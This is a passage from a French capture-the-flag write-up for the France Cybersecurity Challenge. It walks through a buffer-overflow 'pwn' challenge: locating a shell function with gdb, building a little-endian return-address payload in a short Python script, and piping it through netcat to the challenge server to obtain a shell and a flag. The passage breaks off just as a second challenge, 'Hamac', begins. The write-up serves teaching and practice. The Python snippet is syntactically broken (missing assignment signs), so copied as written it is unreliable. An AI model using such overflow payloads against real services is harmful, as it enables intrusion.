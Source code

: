 Vu son nom, c'est surement un shell. Pour être sûr, on list les information de la gestion de la mémoire de notre processus avec `info proc mappings`. On prends la `Start addr` et la `End addr` de notre fichier pwn, puis on recherche la string qu'on a vu tout à l'heure avec strings: 

```[class=line-numbers]
gdb-peda$ find "Enjoy your shell" 0x400000 0x426000
Searching for 'Enjoy your shell' in range: 0x400000 - 0x426000
Found 2 results, display max 2 items:
pwn : 0x402004 ("Enjoy your shell!")
pwn : 0x403004 ("Enjoy your shell!")
```

On retrouve l'adresse 0x402004 chargé dans rdi à la troisième instruciton de la fonction shell.
Maintenant on est sûr. C'est cette fonction qu'on veut appeler !

Il est dans de passer à l'exploitation. D'abord on récupère l'adresse de départ la fonction shell: `0x00000000004011a2`. Ensuite, on la met au format little endian: `\xa2\x11\x40\x00\x00\x00\x00\x00`. Il ne reste plus qu'a mettre l'offset devant et de tout envoyer à travers la connexion netcat.

Pour cela, un petit scipt pyhton pour créer la payload. 

```python[class=line-numbers]
import pwn

offset 55
# payload b'A'*offset + pwn.p32(0x00000000004011a2)
payload 'A' * offset + '\xa2\x11\x40\x00\x00\x00\x00\x00'
f open('payload.raw','w')
f.write(payload)
f.close()
```

Puis on envoie la payload pour obtenir un shell:
```bash[class=line-numbers]
(cat ./payload.raw -) | nc challenges.france-cybersecurity-challenge.fr 2050
>>> 395673620 + 928567584
ls
flag
pwn
cat flag
FCSC{5f25ae8fd59160b018e8ef21ff8972cdb2e3ab98e4f7bfced4e60255d378aee8}
```
# Hamac

## Ennoncé 

Connaissez-vous l'existence de rockyou ?

## Résolution

On nous fournit deux fichier: hamac.py et output.txt.

Respectivement:
